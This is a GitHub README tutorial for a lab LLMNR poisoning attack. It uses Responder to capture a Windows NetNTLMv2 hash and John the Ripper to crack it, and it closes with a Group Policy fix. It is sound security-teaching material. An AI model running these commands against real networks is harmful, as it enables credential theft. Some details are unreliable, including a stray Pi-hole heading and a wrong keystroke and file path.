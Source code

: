 # LLMNR-Poisoning-Attack
[![LLMNR-Poisoning-Attack](https://img.youtube.com/vi/zEDUxnYiLx0/maxresdefault.jpg)](https://www.youtube.com/watch?v=zEDUxnYiLx0)

# Getting Started

### To install Pi-hole on an Ubuntu Server machine, you need to ensure that you meet the following prerequisites: 
- Machine running Kali Linux.
  - Connection to the LAN of the Windows machines
- Windows domain controller
  - Windows client connected to the domain controller
- Up-to-date system: It's always recommended to have an updated Kali system. Run the following commands to update your system:
```sh
sudo apt update
sudo apt upgrade
# system update/upgrade commands
  ```
# Obtaining password hash

#### Step 1: Responder
- Open terminal and run the following command.
```sh
responder -I eth0 -v

#opens Responder on eth0 interface to listen for activity
```
#### Step 2: Windows client query
- Open "Run" application and run the following command.
```sh
\\unknown-folder

# since there is no "unknown-folder" located on this domain, the machine will send a multicast request to all devices on the LAN.
```
#### Step 3: Save hash to .txt file
![hash - Copy](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/32943fb9-3391-4f00-b2f0-a8058779f30c)

- Highlight and copy the entire hash starting at "mscott::MYDOMAIN:
  - Open new terminal tab.
    -   Run the follwoing command.
```sh
vim scott.txt
# this open vim text editor, and allows us to create a .txt to store the hash
```
- Paste the hash into vim.
-   To save and exit your file.
```sh
press "esc"
#  exit insert mode.
press "shift + I"
type ":wq!"
# to save and exit
```
#### Step 4: Crack hash using John The Ripper
- Run the following command in terminal.
```sh
john --wordlist=usr/share/wordlists/rockyou.txt --format=netntlmv2 (.txt your made)
# runs the hash .txt file against the rockyou.txt wordlist
```

![ashw](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/a9ae155c-c880-42d2-9bb4-472c70369035)
- We see our Windows client login credentials.
  -  Pass: Password1 | username: mscott

# Patching

Open "Local Group Policy Editor"
- Go to Computer Configuration > Administrative Templates > Network > DNS Client > "Turn off multicast name resolution"
  - Click Enable, and Apply changes.
